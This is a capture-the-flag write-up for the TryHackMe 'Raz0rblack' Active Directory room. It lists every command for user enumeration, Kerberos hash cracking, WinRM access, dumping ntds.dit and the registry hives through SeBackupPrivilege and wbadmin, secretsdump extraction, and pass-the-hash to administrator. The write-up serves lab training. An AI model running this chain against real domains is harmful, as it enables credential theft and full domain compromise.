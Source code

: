 # Raz0rblack

https://tryhackme.com/room/raz0rblack

A good AD room, with some interesting windows privesc. Worth writing up as some of this stuff is finicky.

Via the flag submission panel, some users can be gathered. HOWEVER, this writeup assumes you don't do this.

1. `nmap -A` over the machine will reveal the domain controller name is **raz0rblack.thm**
2. kerbrute (obtainable [here](https://github.com/ropnop/kerbrute)) run as following will reveal a number of users: `kerbrute userenum -d raz0rblack.thm --dc <ip> /usr/share/wordlists/SecLists/Usernames/x
ato-net-10-million-usernames.txt`: administrator, **twilliams** (with a hash) and **sbradley**.
3. The hash for **twilliams** can be broken with hashcat, rockyou and  `-m 18200`, revealing the password for this user.
4. With credentials, the rest of the users can be gathered via impacket's lookupSID: `python3 /opt/impacket/examples/lookupsid.py raz0rblack.thm/twilliams:roastpotatoes@10.10.
115.139`, revealing two additional users, **xyan1d3** and **lvetrova**.
5. By adding **xyan1d3** and **lvetrova** to users.txt, we can then attempt to kerbroast: `/opt/impacket/examples/GetUserSPNs.py -dc-ip <ip> raz0rblack.thm/twilliams -outputfile
hashes.kerbroast` (this will prompt for a password) which will reveal a hash for the user **xyan1d3**.
6. The hash from above can be broken with hashcat, rockyou and `-m 13100` to get the password for **xyan1d3**.
7. Using this password with evil-winrm we can get an interactive session as this user: `evil-winrm -i <ip> -u xyan1d3 -p <password>`
8. **xyan1d3** has the following permissions: 

```
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Meaning that getting a credential dumb via backups should be possible.

9. A backup of ntds.dit can be made as so: `echo y | wbadmin start backup -backuptarget:\\localhost\c$\users\xyan1d3\Doc
uments -include:c:\windows\ntds\`. This will put the backup in the user's documents folder (note the use of a local c$ share to satisfy both the requirement of a share and the target being ntfs)
10. To extract the ntds.dit, the version id of the backup can be obtained via `wbadmin get versions`, and then the file can be gathered via `echo Y | wbadmin start recovery -itemtype:file -items:C:\windows\ntds\ntds.dit -recoverytarget:Z:\ -notrestoreacl -version:<version-id>`
11. Finally, gathering the sam hive and system hive via `reg save hklm\sam sam.save` and `reg save hklm\system system.save`, the hashes for users can be extracted via `secretsdump.py -system System.hive -sam Sam.hive -ntds ntds.dit LOCAL`.
12. With the admin hash from above, complete system compromise can be obtained via evil-winrm and passing the hash: `evil-winrm -i <ip> -u administrator -H <hash>`

